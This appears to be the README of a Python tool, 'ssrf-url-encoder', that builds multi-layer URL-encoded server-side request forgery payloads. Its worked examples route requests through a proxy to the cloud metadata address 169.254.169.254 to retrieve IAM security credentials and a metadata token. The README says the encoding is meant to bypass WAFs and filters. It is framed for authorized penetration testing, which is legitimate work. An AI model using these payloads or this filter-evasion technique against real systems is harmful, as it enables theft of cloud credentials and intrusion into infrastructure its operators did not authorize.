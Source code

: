 # SSRF URL Encoder
`ssrf-url-encoder` is a Python-based utility designed to construct URL-encoded payloads for SSRF exploitation. It allows users to single encode, recursively decode, and construct complex SSRF payloads with custom proxy endpoints, HTTP methods, and headers.

## Features
- Construct SSRF payloads with custom proxy endpoints.
- Single encode or recursively decode URLs.
- Embed HTTP methods and headers into the payload structure.
- Save encoded payloads to a file for reuse.
- Verbose mode for step-by-step output.

## Usage
```bash
python3 ssrf-url-encoder.py --target <TARGET_URL> --proxy <PROXY_URL> [--method <METHOD_KEY=VALUE>] [--headers <HEADERS_KEY=VALUE>] [--single] [--decode] [--output <OUTPUT_FILE>] [--verbose]
```

## Arguments:
- `--target` (required): Target URL to encode or decode.
- `--proxy`: Proxy endpoint with parameter key, e.g., `?url=` or `?target=`.
- `--method`: Optional method parameter as key=value, e.g., `method=GET`
                     or `method=PUT`.
- `--headers`: Optional headers parameter as key=value, e.g.,
                     `headers=X-aws-ec2-metadata-token-ttl-seconds=21600`.
- `--single`: Single encode the target URL only.
- `--decode`: Recursively decode the target URL.
- `--output`: Save the encoded or decoded payload to a file.
- `--verbose`: Display step-by-step output for debugging.

### How It Works
The `ssrf-url-encoder` script constructs URL-encoded SSRF payloads by systematically encoding the target URL to achieve multiple encoding layers. This process is particularly useful when targeting applications that require double-encoded payloads to bypass filters or proxy constraints.

**Single Encoding Process:** The target URL is first single encoded using standard URL encoding (`%` encoding). This prepares the URL for safe inclusion within a proxy endpoint or as a standalone payload.

**Hybrid Encoding Process (Achieving Double Encoding)**
1. **Initial Single Encoding of Target:** The target URL is single encoded to prepare it for inclusion in the proxy structure.
   - Example:
     - Input: `http://example.com/resource`
     - Single Encoded: `http%3A%2F%2Fexample.com%2Fresource`

2. **Appending to Proxy URL:** The single encoded target is then embedded within the proxy URL as the value of the query parameter defined by the user. This creates the intermediate URL structure.
   - Example:
     - Proxy Structure: `http://proxy.com/?url=`
     - Intermediate URL: `http://proxy.com/?url=http%3A%2F%2Fexample.com%2Fresource`

3. **Second Single Encoding (Achieving Double Encoding):** The entire constructed proxy URL is then single encoded again to achieve the intended double encoding. This ensures that the payload is sufficiently obfuscated to bypass WAFs or other filtering mechanisms.
   - Example:
     - Intermediate URL: `http://proxy.com/?url=http%3A%2F%2Fexample.com%2Fresource`
     - Double Encoded: `http%253A%252F%252Fproxy.com%252F%253Furl%253Dhttp%25253A%25252F%25252Fexample.com%25252Fresource`

**Recursive Decoding:** When the `--decode` flag is used, the script recursively decodes the payload until no further decoding is possible, ensuring that deeply nested encoded payloads are fully resolved.

## Output Examples
**1. Constructing SSRF Payload with Method and Headers**
```bash
python3 ssrf-url-encoder.py --target http://169.254.169.254/latest/meta-data/iam/security-credentials/example-role --proxy 'http://127.0.0.1:10000/example-api-proxy/?url=' --method method=GET --headers 'headers={"X-aws-ec2-metadata-token":"AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE=="}' --verbose --output encoded_payload.txt      
[+] Payload saved to: encoded_payload.txt
[INFO] Target URL encoded once: http%3A%2F%2F169.254.169.254%2Flatest%2Fmeta-data%2Fiam%2Fsecurity-credentials%2Fexample-role
[INFO] Proxy URL constructed: http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D
[INFO] Final single encoded payload: http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D
```
```
cat encoded_payload.txt 
http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D
```

**2. Recursive Decoding of URL**
```bash
python3 ssrf-url-encoder.py --target http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D --decode
http://127.0.0.1:10000/example-api-proxy/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/example-role&method=GET&headers={"X-aws-ec2-metadata-token":"AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE=="}
```

**3. Single Encode a URL**
```bash
--target http://169.254.169.254/latest/api/token --single
http%3A%2F%2F169.254.169.254%2Flatest%2Fapi%2Ftoken
```

## Contributing
If you have an idea for improvement or wish to collaborate, feel free to contribute.

## Disclaimer
Use responsibly. This tool is intended for red teamers, security auditors, and penetration testers with proper authorization.
